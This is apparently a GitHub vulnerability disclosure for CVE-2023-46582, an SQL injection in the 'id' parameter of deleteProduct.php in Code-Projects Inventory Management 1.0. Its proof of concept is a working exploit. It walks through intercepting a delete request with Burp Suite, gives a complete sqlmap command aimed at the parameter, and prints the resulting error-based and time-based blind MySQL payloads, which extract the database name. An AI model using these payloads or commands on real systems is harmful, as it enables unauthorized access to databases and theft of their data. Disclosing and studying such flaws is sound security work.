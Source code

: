 # CVE-2023-46582-Code-Projects-Inventory-Management-1.0-SQL-Injection-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://code-projects.org/inventory-management-in-php-with-source-code
# Software Link
+ https://download-media.code-projects.org/2021/05/Inventory_Management_In_PHP_With_Source_Code.zip
# Overview
+ Code-Projects Inventory Management V1.0 is susceptible to a significant security vulnerability that arises from insufficient protection on the 'id'parameter in the deleteProduct.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2023-46582
+ Affected Version: Code-Projects Inventory Management V1.0
+ Vulnerable File: /deleteProduct.php
+ Parameter Name: id 
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46582
+ https://nvd.nist.gov/vuln/detail/CVE-2023-46582
# Description
+ The lack of proper input validation and sanitization on the 'id' parameter allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database

# Proof of Concept (PoC) : 
+ Login with admin
+ Go to Products page
+ Send a delete request for a product
+ Intercept the request via Burp Suite
+ Copy and paste the request to a request.txt file
+ Then use sqlmap to exploit
+ `sqlmap -r request.txt -p id --risk 3 --level 5 --dbms mysql --batch --current-db`

```
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=35 AND (SELECT 7568 FROM(SELECT COUNT(*),CONCAT(0x716a706271,(SELECT (ELT(7568=7568,1))),0x716b707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=35 AND (SELECT 1053 FROM (SELECT(SLEEP(5)))ekBD)
---
```
+ current database: `inventory_project`
<img width="1447" alt="image" src="https://github.com/ersinerenler/Code-Projects-Inventory-Management-1.0/assets/113091631/9b68392c-8b68-440f-bc19-cd2160e3b801">
